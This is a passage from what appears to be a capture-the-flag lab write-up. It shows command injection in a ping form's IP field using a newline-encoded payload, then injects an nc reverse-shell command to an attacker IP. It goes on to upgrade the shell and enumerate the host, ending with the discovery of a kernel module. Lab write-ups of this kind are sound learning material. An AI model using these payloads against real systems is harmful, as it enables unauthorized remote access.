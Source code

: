   * If we use backticks like "127.0.0.1`id`", this gives us an error 'Failed to execute ping'

  * If we use single or double quotes in our payload, we still don't get the ```ping``` command working

  * Using a payload such as ```127.0.0.1 && id``` helps in ```ping``` command execution, but we do not see the injected command output; similar output with single ampersand

  * Using the ```|``` character is also not allowed

  * When we use the ```127.0.0.1 %0A id``` payload, we are able to see the output of ```id``` command - this means the newline character works here

* As we have RCE now, we can use this to get a reverse-shell:

  ```sh
  # setup listener
  nc -nvlp 4444

  # we can try a few reverse-shell payloads to see which one works
  # the payload using 'nc' works
  # use this payload in the 'ip' field
  127.0.0.1 %0A nc -c sh 10.10.103.84 4444

  # on sending the request, we get a connection on our listener

  # we can upgrade our reverse shell first
  python3 -c 'import pty;pty.spawn("/bin/bash")'

  export TERM=xterm
  # Ctrl + Z

  stty raw -echo; fg
  # press Enter twice now

  id
  # www-data

  ls -la /home
  # we have two users - 'athena' and 'ubuntu'

  ls -la /home/athena
  # permission denied

  ls -la /home/ubuntu
  # permission denied

  # we can continue with basic enumeration
  ls -la /

  ls -la /var/www/html
  # check web directory for anything interesting

  ls -la /mnt
  # check for any mounted files or interesting files

  # we have a directory '...' here

  ls -la /mnt/...

  ls -la /mnt/.../secret
  # we have a .ko file here

  ls -la /mnt/.../secret/venom.ko
  # this seems to be a kernel module file

  ```